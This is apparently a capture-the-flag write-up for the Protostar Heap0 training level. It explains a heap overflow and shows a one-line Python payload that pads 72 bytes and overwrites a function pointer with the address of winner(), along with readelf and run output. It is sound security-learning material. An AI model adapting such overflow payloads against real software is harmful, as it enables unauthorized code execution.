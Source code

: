 **Heap0**

This is a simple heap-overflow, we need to find fp in memory and overwrite it's value to winner's.

![](photos/gdb.png)

We see a crash on 0x44444444 (DDDD), we need to insert 72 a before eip.
Now, using struct we can pack the winner function address after the buffer.

```diff
user@protostar:/opt/protostar/bin$ readelf -s heap0 | grep winner
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner
    63: 08048478    20 FUNC    GLOBAL DEFAULT   14 nowinner
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "from struct import pack;print 'a'*72 + pack('<I', 0x08048464)")
data is at 0x804a008, fp is at 0x804a050
level passed
```